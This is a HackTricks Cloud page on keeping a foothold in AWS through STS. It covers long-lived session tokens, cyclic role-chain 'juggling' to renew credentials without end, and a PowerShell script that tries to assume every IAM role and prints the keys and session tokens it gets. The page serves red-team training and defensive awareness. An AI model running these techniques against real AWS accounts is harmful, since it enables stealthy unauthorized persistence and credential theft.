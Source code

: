 # AWS - STS Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

For more information access:

{% content-ref url="../aws-services/aws-sts-enum.md" %}
[aws-sts-enum.md](../aws-services/aws-sts-enum.md)
{% endcontent-ref %}

### Assume role token

Temporary tokens cannot be listed, so maintaining an active temporary token is a way to maintain persistence.

<pre class="language-bash"><code class="lang-bash">aws sts get-session-token --duration-seconds 129600

# With MFA
aws sts get-session-token \
    --serial-number &#x3C;mfa-device-name> \
    --token-code &#x3C;code-from-token>

# Hardware device name is usually the number from the back of the device, such as GAHT12345678
<strong># SMS device name is the ARN in AWS, such as arn:aws:iam::123456789012:sms-mfa/username
</strong># Vritual device name is the ARN in AWS, such as arn:aws:iam::123456789012:mfa/username
</code></pre>

### Role Chain Juggling

[**Role chaining is an acknowledged AWS feature**](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_terms-and-concepts.html#Role%20chaining), often utilized for maintaining stealth persistence. It involves the ability to **assume a role which then assumes another**, potentially reverting to the initial role in a **cyclical manner**. Each time a role is assumed, the credentials' expiration field is refreshed. Consequently, if two roles are configured to mutually assume each other, this setup allows for the perpetual renewal of credentials.

You can use this [**tool**](https://github.com/hotnops/AWSRoleJuggler/) to keep the role chaining going:

```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```

{% hint style="danger" %}
Note that the [find\_circular\_trust.py](https://github.com/hotnops/AWSRoleJuggler/blob/master/find_circular_trust.py) script from that Github repository doesn't find all the ways a role chain can be configured.
{% endhint %}

<details>

<summary>Code to perform Role Juggling from PowerShell</summary>

```powershell
# PowerShell script to check for role juggling possibilities using AWS CLI

# Check for AWS CLI installation
if (-not (Get-Command "aws" -ErrorAction SilentlyContinue)) {
    Write-Error "AWS CLI is not installed. Please install it and configure it with 'aws configure'."
    exit
}

# Function to list IAM roles
function List-IAMRoles {
    aws iam list-roles --query "Roles[*].{RoleName:RoleName, Arn:Arn}" --output json
}

# Initialize error count
$errorCount = 0

# List all roles
$roles = List-IAMRoles | ConvertFrom-Json

# Attempt to assume each role
foreach ($role in $roles) {
    $sessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
    try {
        $credentials = aws sts assume-role --role-arn $role.Arn --role-session-name $sessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
        if ($credentials) {
            Write-Host "Successfully assumed role: $($role.RoleName)"
            Write-Host "Access Key: $($credentials.AccessKeyId)"
            Write-Host "Secret Access Key: $($credentials.SecretAccessKey)"
            Write-Host "Session Token: $($credentials.SessionToken)"
            Write-Host "Expiration: $($credentials.Expiration)"

            # Set temporary credentials to assume the next role
            $env:AWS_ACCESS_KEY_ID = $credentials.AccessKeyId
            $env:AWS_SECRET_ACCESS_KEY = $credentials.SecretAccessKey
            $env:AWS_SESSION_TOKEN = $credentials.SessionToken

            # Try to assume another role using the temporary credentials
            foreach ($nextRole in $roles) {
                if ($nextRole.Arn -ne $role.Arn) {
                    $nextSessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
                    try {
                        $nextCredentials = aws sts assume-role --role-arn $nextRole.Arn --role-session-name $nextSessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
                        if ($nextCredentials) {
                            Write-Host "Also successfully assumed role: $($nextRole.RoleName) from $($role.RoleName)"
                            Write-Host "Access Key: $($nextCredentials.AccessKeyId)"
                            Write-Host "Secret Access Key: $($nextCredentials.SecretAccessKey)"
                            Write-Host "Session Token: $($nextCredentials.SessionToken)"
                            Write-Host "Expiration: $($nextCredentials.Expiration)"
                        }
                    } catch {
                        $errorCount++
                    }
                }
            }

            # Reset environment variables
            Remove-Item Env:\AWS_ACCESS_KEY_ID
            Remove-Item Env:\AWS_SECRET_ACCESS_KEY
            Remove-Item Env:\AWS_SESSION_TOKEN
        } else {
            $errorCount++
        }
    } catch {
        $errorCount++
    }
}

# Output the number of errors if any
if ($errorCount -gt 0) {
    Write-Host "$errorCount error(s) occurred during role assumption attempts."
} else {
    Write-Host "No errors occurred. All roles checked successfully."
}

Write-Host "Role juggling check complete."
```

</details>

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
